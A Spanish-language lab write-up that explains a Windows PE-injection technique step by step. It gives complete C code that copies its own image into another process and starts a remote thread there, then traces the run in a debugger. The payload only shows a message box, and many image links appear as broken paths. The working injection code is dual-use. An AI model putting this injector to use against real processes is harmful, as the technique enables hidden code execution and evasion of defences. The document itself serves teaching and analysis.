En este laboratorio se sigue un código que copia la imagen de su propio ejecutable en otro proceso y crea allí un hilo que ejecuta `InjectionEntryPoint`. Es una demostración de `PE injection`: introduce tanto código como datos de un `PE` —el formato de ejecutables de Windows— en la memoria de otro proceso.

## Código
A continuación se muestra el código comentado que realiza la inyección PE:

```c


#include <stdio.h>
#include <windows.h>
#include <string.h>

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint()
{
	CHAR moduleName[128] = "";
	GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
	MessageBoxA(NULL, moduleName, "Obligatory PE Injection", MB_OK);
	return 0;
}

int main()
{
	// Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

	// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

	// Open the target process - this is process we will be injecting this PE into
	HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 9304);
	
	// Allote a new memory block in the target process. This is where we will be injecting this PE
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	// Relocate localImage, to ensure that it will have correct addresses once its in the target process
	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;

	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (DWORD i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaImageBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	// Write the relocated localImage into the target process
	WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);

	// Start the injected PE inside the target process
	CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);

	return 0;
}
```


### 1. Define la función que ejecutará en el proceso destino
DWORD InjectionEntryPoint()
{
    CHAR moduleName[128] = "";
    GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
    MessageBoxA(NULL, moduleName, "Obligatory PE Injection", NULL);
    return 0;
}

Esta función obtiene la ruta del ejecutable principal del proceso y la muestra en una ventana.

Como se ejecutará dentro del proceso destino, `GetModuleFileNameA(NULL, ...)` devuelve la ruta del ejecutable del proceso destino, no la del programa inyector ni la de la copia insertada. La copia no se registra como un módulo mediante el cargador normal de Windows.


### 2. Localiza su propia imagen y lee las cabeceras PE
```c
PVOID imageBase = GetModuleHandle(NULL);
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
PIMAGE_NT_HEADERS ntHeader =
    (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);
```

`GetModuleHandle(NULL)` devuelve la dirección base del ejecutable actual.

Desde esa dirección interpreta:
1. La `cabecera DOS`.
2. El `campo e_lfanew`, que indica dónde empieza la `cabecera NT`.
3. La `cabecera NT`, que contiene información como el tamaño de la imagen y la ubicación de la tabla de reubicaciones.


### 3. Crea una copia local de la imagen cargada
```bash
PVOID localImage = VirtualAlloc(
    NULL, ntHeader->OptionalHeader.SizeOfImage,
    MEM_COMMIT, PAGE_READWRITE);

memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);
```
Reserva memoria en el propio proceso y copia su imagen completa.

Copia la representación que ya está cargada en memoria, no los bytes del archivo `.exe` en disco. Las secciones ya están distribuidas según sus direcciones virtuales y las importaciones ya fueron resueltas en el proceso inyector.

Esta copia permite modificar las direcciones sin alterar el ejecutable que está funcionando.

### 4. Abre el proceso destino y reserva memoria en él
```c++
HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 9304);
```
Intenta abrir el proceso cuyo PID es 9304, solicitando los permisos máximos que permita el contexto de seguridad.

```c++
PVOID targetImage = VirtualAllocEx(
    targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage,
    MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
Reserva en ese proceso un bloque con permisos de lectura, escritura y ejecución para alojar la copia.


### 5. Calcula y aplica las reubicaciones
```bash
DWORD_PTR deltaImageBase =
    (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;
```
Calcula la diferencia entre la dirección base original y la dirección que tendrá la imagen en el proceso destino:
```bash
delta = base remota − base original
```

Después localiza la tabla de reubicaciones dentro de `localImage` y recorre sus bloques. Cada bloque contiene un `RVA` de página y una lista de entradas.

Para cada entrada que decide procesar:
```bash
patchedAddress = (PDWORD_PTR)(
    (DWORD_PTR)localImage
    + relocationTable->VirtualAddress
    + relocationRVA[i].Offset);

*patchedAddress += deltaImageBase;
```

Localiza el valor que necesita corregirse y le suma el `delta`. Así, una referencia absoluta a una posición de la imagen original pasa a apuntar a la posición equivalente de la imagen remota.

El `delta` se calcula respecto a `imageBase`, no respecto a `localImage`, porque los valores copiados todavía corresponden a la base de la imagen original.


### 6. Escribe la copia corregida en el proceso destino
```bash
WriteProcessMemory(
    targetProcess, targetImage, localImage,
    ntHeader->OptionalHeader.SizeOfImage, NULL);
```
Transfiere la imagen preparada desde la memoria local al bloque reservado en el otro proceso.


### 7. Inicia un hilo en la función copiada
```bash
CreateRemoteThread(
    targetProcess, NULL, 0,
    (LPTHREAD_START_ROUTINE)(
        (DWORD_PTR)InjectionEntryPoint + deltaImageBase),
    NULL, 0, NULL);
```
La dirección original de `InjectionEntryPoint`, más el `delta`, corresponde a su ubicación dentro de la copia remota:
```bash
función remota = base remota + desplazamiento de la función
```

El nuevo hilo empieza en esa función y muestra el mensaje. No ejecuta `main()` de nuevo ni utiliza el punto de entrada `PE` habitual.

----

## Tabla resumen de pasos

| Paso | Código / API principal | Qué hace |
|---|---|---|
| 1 | `GetModuleHandle(NULL)` | Obtiene la dirección base del ejecutable del inyector. |
| 2 | `IMAGE_DOS_HEADER`, `e_lfanew`, `IMAGE_NT_HEADERS` | Lee las cabeceras PE para obtener el tamaño de la imagen y localizar la tabla de reubicaciones. |
| 3 | `VirtualAlloc` + `memcpy` | Reserva memoria local y copia la imagen del ejecutable que ya está cargada en memoria. |
| 4 | `OpenProcess` | Abre el proceso destino con PID `9304`. |
| 5 | `VirtualAllocEx` | Reserva memoria con permisos de lectura, escritura y ejecución en el proceso destino. |
| 6 | `targetImage - imageBase` | Calcula la diferencia entre la base remota y la base original. |
| 7 | Recorrido de la tabla de reubicaciones | Ajusta direcciones absolutas en la copia local sumándoles la diferencia calculada. El ejemplo ignora el tipo de reubicación. |
| 8 | `WriteProcessMemory` | Copia la imagen ajustada a la memoria del proceso destino. |
| 9 | `CreateRemoteThread` | Crea un hilo remoto que comienza en la dirección de la copia de `InjectionEntryPoint`. |
| 10 | `GetModuleFileNameA` + `MessageBoxA` | Desde el proceso destino, obtiene la ruta de su ejecutable principal y la muestra en una ventana. |


# Compilación

```bash
x86_64-w64-mingw32-gcc -O0 -g -Wall -Wextra \
  pe_injection.c -o pe_injection.exe -luser32
```

Obtenemos el fichero:
```bash
sha256sum pe_injection.exe             
983f141fc90162fe94c377cd0551f9251a1df7d671d97663a1326971561117a1  pe_injection.exe
```


# Análisis
















Establecemos los siguientes breakpoints:



| Captura | Qué mostrar | Qué demuestra |
|---|---|---|
| Imagen original | Dirección base del ejecutable en **Memory Map** y su inicio en **Dump**, con `4D 5A` (`MZ`). | La imagen que se va a copiar. |
| Entrada en `VirtualAlloc` | Tu captura actual, con `RCX`, `RDX`, `R8` y `R9`. | El tamaño y los permisos de la reserva local. |
| Retorno de `VirtualAlloc` | `RAX` y la memoria reservada en **Dump**. | La dirección de `localImage` y el resultado de la reserva. |
| Después de `memcpy` | El contenido de `localImage`, empezando por `MZ`. | Que la imagen original se ha copiado. |


En el panel de `Memory Map`, localizamos el módulo `pe_injection.exe`:
  
donde:
- Se identifica la imagen original de `pe_injection.exe` en la dirección base `0x00007FF7A83F0000`
- El mapa de memoria muestra sus secciones cargadas como imagen (IMG).

Seguimos esa dirección base en Dump:
  
donde:
- El volcado muestra las firmas `MZ` y `PE`.


| Captura | Qué demuestra |
|---|---|
| **Dump** en `0x00007FF7A83F0000` | La imagen original empieza con `4D 5A` (`MZ`). También se ve la firma `PE` en el desplazamiento `0x80`. |
| **Memory Map** | El ejecutable está cargado como memoria de tipo `IMG`, con sus secciones `.text`, `.data`, `.rdata`, `.reloc`, etc. y sus distintas protecciones. |


-----

## Obtiener la base del ejecutable

Establecemos el breakpoint:
```bash
bp kernel32:GetModuleHandleA
```

| Parada | Qué observar |
|---|---|
| `GetModuleHandleA` con `RCX = 0` | Es la llamada a `GetModuleHandle(NULL)` que obtiene la base del ejecutable. |
| Retorno de esa llamada | `RAX` contiene `imageBase`. |
| Entrada a `VirtualAlloc` | El código ya ha leído las cabeceras. `RDX` contiene `SizeOfImage`. |


**Localizar la imagen original:**

Pulsamos `F9` hasta `GetModuleHandleA`. Compruobamos que `RCX` sea cero. Si no lo es, continuamos hasta la llamada correcta.

Pulsamos `Ctrl+F9 `y después `F8` para regresar al código del ejecutable. Anotamos `RAX` y haz clic derecho sobre él → `Follow in Dump`.
Capturamos ese dump: comenzará por `4D 5A (MZ)`. Esa dirección es la base original.





## Localizar sus cabeceras PE


En el dump, leemos el `DWORD` situado en:
```bash
imageBase + 0x3C
```
Es `e_lfanew`, un desplazamiento de cuatro bytes en formato little-endian. Calculamos:
```bash
ntHeader = imageBase + e_lfanew
```
Vmos a esa dirección con `Ctrl+G` dentro del dump. Veremos:
```bash
50 45 00 00    PE\0\0
```

  
donde:
- Hemos localizado la firma de las cabeceras NT `PE\0\0`.


## Comprobar el tamaño de la imagen

Para el ejecutable PE de 64 bits:
| Dirección | Campo | Valor esperado |
|---|---|---|
| `ntHeader + 0x18` | `OptionalHeader.Magic` — WORD | `0x20B`, indica PE32+ |
| `ntHeader + 0x50` | `OptionalHeader.SizeOfImage` — DWORD | En tu ejecución anterior: `0x24000` |

```bash
imageBase + 0x3C = `80`.
0x00007FF7A83F0000 + 80 = `PE\0\0`
```


0x00007FF7A83F0000 + 80 + 18 = 0x00007FF7A83F0098: OptionalHeader:  



0x00007FF7A83F0000 + 80 + 50 = 0x00007FF7A83F00D0: SizeOfImage:  



| Campo | Dirección en tu captura | Bytes | Interpretación |
|---|---|---|---|
| `OptionalHeader.Magic` | `00007FF7A83F0098` | `0B 02` | `0x020B`: ejecutable de 64 bits |
| `SizeOfImage` | `00007FF7A83F00D0` | `00 40 02 00` | `0x24000`: 147 456 bytes |

```bash
imageBase      = 00007FF7A83F0000
ntHeader       = 00007FF7A83F0080
OptionalHeader = 00007FF7A83F0098
SizeOfImage    = ntHeader + 0x50  --> `0x24000`
```


-----


## Reserva de memoria para la copia local

  

La captura confirma que `VirtualAlloc` recibe el tamaño leído de la `cabecera PE:`

| Registro | Valor | Significado |
|---|---|---|
| `RCX` | `0` | Windows elige la dirección |
| `RDX` | `0x24000` | `SizeOfImage`: 147 456 bytes |
| `R8` | `0x1000` | `MEM_COMMIT` |
| `R9` | `0x04` | `PAGE_READWRITE` |


Pulsamos `Ctrl+F9`, después `F8`, para regresar al ejecutable:  

donde:
- RAX tiene la dirección de localImage. Si vale cero, la reserva falló.
- Hacemos clic derecho en `RAX` → `Follow in Dump`.
- La memoria contiene ceros porque todavía no se ha ejecutado la copia.


La reserva local antes de la copia:  



La reserva local después de la copia:  



| Captura | Qué demuestra |
|---|---|
| Retorno de `VirtualAlloc` | `RAX = 00000217D85B0000`: dirección de `localImage`. El dump contiene ceros. |
| Parada en `00007FF7A83F15E9` | Está a punto de copiar la imagen: `RCX` = destino local, `RDX` = imagen original y `R8` = `0x24000` bytes. |
| Parada en `00007FF7A83F15EE` | El mismo destino contiene `MZ` y la firma PE en el desplazamiento `0x80`. `RAX` devuelve la dirección del destino. |


Se reservó una región local de `0x24000` bytes en `00000217D85B0000`. Después se copió allí la imagen original situada en `00007FF7A83F0000`. El dump muestra las cabeceras `MZ` y `PE` en la región que anteriormente contenía ceros.


